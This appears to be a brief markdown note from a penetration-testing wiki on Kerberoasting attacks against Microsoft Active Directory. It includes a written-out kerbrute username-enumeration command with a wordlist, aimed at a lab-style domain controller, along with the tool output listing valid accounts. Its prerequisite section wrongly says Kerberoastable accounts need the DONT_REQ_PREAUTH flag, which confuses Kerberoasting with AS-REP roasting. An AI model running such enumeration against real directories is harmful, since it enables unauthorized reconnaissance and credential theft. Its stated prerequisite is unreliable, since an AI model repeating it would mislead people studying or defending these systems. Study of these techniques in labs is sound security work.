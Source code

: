 # Kerberoasting

Kerberoasting is a type of attack against Microsoft Active Directory environments that involves extracting service account passwords from Kerberos tickets. Service accounts are often used to run automated processes and scheduled tasks, and because they often have high privileges within an organization, they can be a valuable target for attackers.

The basic method of kerberoasting involves requesting a ticket for a service account, then cracking the encrypted password hash that is included in the ticket.

# Pre-Requisites

Kerberoastable users need to have the `DONT_REQ_PREAUTH` flag set.

``` 
$   kerbrute userenum -d MCDONALDS.LOCAL SecLists/Usernames/xato-net-10-million-usernames.txt --dc dc-01.htb                                                            


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/08/23 - Ronnie Flathers @ropnop

2023/02/08 14:26:09 >  Using KDC(s):
2023/02/08 14:26:09 >   10.10.10.175:88

2023/02/08 14:26:45 >  [+] VALID USERNAME:       administrator@MCDONALDS.LOCAL
2023/02/08 14:30:08 >  [+] VALID USERNAME:       dudi@MCDONALDS.LOCAL
2023/02/08 14:30:32 >  [+] VALID USERNAME:       sagi@MCDONALDS.LOCAL
2023/02/08 14:31:49 >  [+] VALID USERNAME:       ido@MCDONALDS.LOCAL
2023/02/08 14:48:58 >  [+] VALID USERNAME:       overlord@MCDONALDS.LOCAL
